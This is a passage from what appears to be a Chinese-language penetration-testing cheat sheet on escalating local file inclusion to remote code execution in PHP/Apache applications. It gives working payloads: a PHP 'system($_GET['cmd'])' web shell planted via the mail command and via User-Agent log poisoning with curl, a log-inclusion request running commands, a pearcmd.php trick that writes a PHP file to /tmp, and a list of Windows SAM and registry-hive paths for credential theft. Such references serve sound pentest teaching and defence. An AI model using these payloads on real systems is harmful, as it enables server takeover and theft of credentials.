 在某些情况下，您也可以使用`mail`命令行发送电子邮件。

```
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### 通过Apache日志实现RCE

污染访问日志中的User-Agent：

```
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

注意：日志会转义双引号，因此在PHP有效载荷中对字符串使用单引号。

然后通过LFI请求日志并执行命令。

```
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

## 通过PHP会话实现LFI到RCE

检查网站是否使用PHP会话（PHPSESSID）

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

## 通过PHP PEARCMD实现LFI到RCE

如果服务器上安装了PEAR（PHP扩展和应用程序仓库），并且`register_argc_argv`设置为`On`，则可以通过`pearcmd.php`执行系统命令。

```
http://example.com/index.php?+config-create+/&page=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

然后包含生成的文件：

```
http://example.com/index.php?page=/tmp/hello.php
```

## 通过凭证文件实现LFI到RCE

此方法需要应用程序内的高权限才能读取敏感文件。

### Windows版本

- `C:\Windows\repair\sam`
- `C:\Windows\System32/config/RegBack/*`
- `C:\Windows\repair\system`
- `C:\Windows\repair\software`
- `C:\Windows\repair\security`
- `C:\Windows\System32\config\system`
- `C:\Windows\System32\config\software`
- `C:\Windows\System32\config\security`
- `C:\Windows\System32\config\sam`
- `C:\Windows\System32\config\default`
